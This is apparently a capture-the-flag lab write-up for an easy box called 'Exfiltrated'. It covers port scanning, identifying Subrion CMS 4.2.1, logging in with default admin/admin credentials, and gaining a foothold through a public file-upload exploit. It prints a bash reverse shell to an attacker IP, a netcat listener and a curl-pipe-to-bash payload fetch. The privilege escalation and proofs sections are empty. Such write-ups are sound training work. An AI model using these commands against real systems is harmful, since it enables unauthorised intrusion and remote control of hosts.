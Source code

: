 ```yaml
---
description: 11/22/2021
---
```


# Exfiltrated (Easy)

## Information Gathering

Scanned all TCP ports:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
|_http-favicon: Unknown favicon MD5: 09BDDB30D6AE11E854BFF82ED638542B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
All 1000 scanned ports on exfiltrated.offsec (192.168.90.163) are in ignored states.
```

Notes:

* 80/HTTP - <mark style="color:yellow;">added exfiltrated.offsec to /etc/hosts</mark>
  * CMS- Subrion -- Can we enumerate the version? -- Yes, <mark style="color:yellow;">v4.2.1</mark>
  * Apache 2.4.41
* Perform quick win attempt with searchsploit on both services above

## Enumeration

### Port 80 - HTTP (Apache) -- exfiltrated.offsec

Visual Inspection:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Wappalyzer:

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Searchsploit results of Subrion CMS:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Enumerated Subrion Version:

* Found via selecting the "Go to admin dashboard" button on the main site

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

* Version has been enumerated <mark style="color:yellow;">Subrion v4.2.1</mark>
* We have 4 exploits that are targeted towards this version

### Subrion Default Credentials

A simple Google search for Subrion Default Creds gives us this first site with lucrative and guessable information

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">Attempted admin/admin login and it worked!</mark>

### Subrion Admin Panel

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### 49876.py (Arbitrary File Upload)

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

* Viewed the python exploit in gedit to ensure I was using the proper syntax!
* I also had to copy/paste the explicit directory from the URL bar to the terminal for it to get the correct path (side note)
* However, this shell was really buggy so I ended up transferring a bash reverse shell to upgrade my shell

### Upgrading Web Shell -> Reverse Shell

Create bash reverse shell (rev\_shell):

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.49.90/1337 0>&1
```

Start Netcat listener:

```
nc -lnvp 1337
```

Start HTTP server on Kali:

```
python3 -m http.server 80
```

Transfer w/ curl:

```
curl 192.168.49.90/rev_shell | bash
```

<figure><img src="../../../.gitbook/assets/image (27) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Local enumeration

### PrivEsc vector

## Proofs
